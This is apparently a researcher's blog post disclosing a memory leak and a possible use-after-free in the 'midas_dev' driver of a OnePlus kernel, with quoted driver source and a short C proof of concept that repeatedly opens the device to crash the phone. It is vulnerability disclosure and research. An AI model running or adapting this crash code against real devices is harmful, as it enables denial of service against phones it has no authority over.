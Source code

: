 +++
title = "Oneplus kernel memory leak and potential use after free"
date = "2025-09-28T03:07:44+05:30"
author = "IamAlch3mist"
authorTwitter = "" #do not include @
cover = ""
tags = ["use-after-free", "memory-leak", "kernel-exploit"]
keywords = ["", ""]
description = "heh"
showFullContent = false
readingTime = true
hideComments = false
color = "" #color from the theme settings
+++


I borrowed a OnePlus phone from a friend to experiment with the kernel. Since the kernel is open source, I started digging (hoping for an LPE). I found a couple more bugs they are for another blog post, but here’s a neat little memory leak that can be abused for DoS and can lead to use‑after‑free.

I focused on vendor-specific drivers rather than the [mainline kernel](https://github.com/OnePlusOSS/android_kernel_oneplus_mt6893). The driver in question is: [`drivers/soc/oplus/midas/midas_dev.c`](https://github.com/OnePlusOSS/android_kernel_oneplus_mt6893/blob/oneplus/MT6893_R_11.0/drivers/soc/oplus/midas/midas_dev.c)


The driver exports the usual file operations with callbacks to open, close, mmap, and ioctl. 
```c
static const struct file_operations midas_dev_fops = {
	.open = midas_dev_open,
	.release = midas_dev_release,
	.mmap = midas_dev_mmap,
	.unlocked_ioctl = midas_dev_ioctl,
};
```

On open the driver an allocation happens using kzalloc with the size of struct midas_priv_info and stored in the pointer info. At 2 the allocated info is stored in privat_data member of filp struct which is basically a void pointer. 

On close the info pointer is retrieved from the filp struct and passed to kfree. 

```c
static int midas_dev_open(struct inode *inode, struct file *filp)
{
	int ret = 0;

	struct midas_priv_info *info = kzalloc(sizeof(struct midas_priv_info), GFP_KERNEL); // [1]  
	if (IS_ERR_OR_NULL(info))
		return -ENOMEM;

	info->mmap_addr = vmalloc_user(sizeof(struct midas_mmap_data));
	if (IS_ERR_OR_NULL(info->mmap_addr)) {
		pr_err("mmap_addr vmalloc failed!\n");
		ret = -ENOMEM;
		goto err_info_alloc;
	}

	filp->private_data = info; // [2]
	return 0;

err_info_alloc:
	kfree(info);
	return ret;
}


static int midas_dev_release(struct inode *inode, struct file *filp)
{
	struct midas_priv_info *info = filp->private_data;
	if (IS_ERR_OR_NULL(info))
		return 0;

	if (info->mmap_addr != NULL)
		vfree(info->mmap_addr);

	kfree(info); // use after free
	return 0;
}
```

There are no locks or checks on in the filp->private_data. If the driver is opened multiple times (without properly closing prior handles). The filp->private_data pointer can be overwritten with a newly allocated info. Which results in memory leak. 


On close the allocated memory is freed but file->private data holds reference to the info pointer and didn't set to NULL. Combined with the ability to open the driver multiple times leading to potential use-after-free. 

system user have permision to interact with the driver. 
```yaml
OP515BL1:/data/local/tmp # ls -al /dev/midas_dev
crw-rw---- 1 system system 238,   0 2025-09-28 04:53 /dev/midas_dev
```
Poc to crash the device using the memory leak.
```c
// aarch64-linux-gnu-gcc -static poc.c 

#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>

int main(void) {

    int fd;
    for(unsigned int i = 0; i < 0xffffff; i++) {
    fd = open("/dev/midas_dev", O_RDWR);
    if (fd < 0) {
        perror("open failed");
        continue;
    }

}
    close(fd);

return 0;
}
```

{{< youtube kzA2Qn1aQik >}}
# Conclusion 
I expected good quality from oneplus it was disappointing to see such bugs. In the end I found couple more uaf.
